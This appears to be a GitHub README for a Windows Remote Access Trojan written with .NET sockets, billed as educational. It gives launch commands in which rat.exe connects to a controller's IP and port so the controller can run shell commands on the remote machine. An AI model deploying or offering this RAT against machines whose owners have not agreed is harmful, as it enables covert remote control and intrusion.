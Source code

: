 # Windows Remote Access Trojan (RAT) using .NET Sockets

Client-server binaries and source-code for controlling a remote machine behind a NAT with a command-line shell in Windows. Although the core provides support for communication with multiple RATs, the command-line interface used has limited capabilities distinguishing each one.

The RAT process executable does not hide itself from taskbar or task manager as it was developed for educational purposes only. Please do not use for any malicious purposes.

Contains the source code and the two binaries packaged using ILMerge.

Replication of RAT:

1. Start the server in a command-line acting as the RAT (Binaries\rat.exe) -> 
rat ip=[controller-ip-address] port=[controller-port-default-is-9999]

2. Start the client in a command-line acting as the controller (Binaries\controller.exe) -> 
controller ip=[listen-ip-address] port=[listen-port-default-is-9999]

3. Issue commands from the controller.exe interface


`This tool is in developement phase so, apologies for encounter with Bugs.`
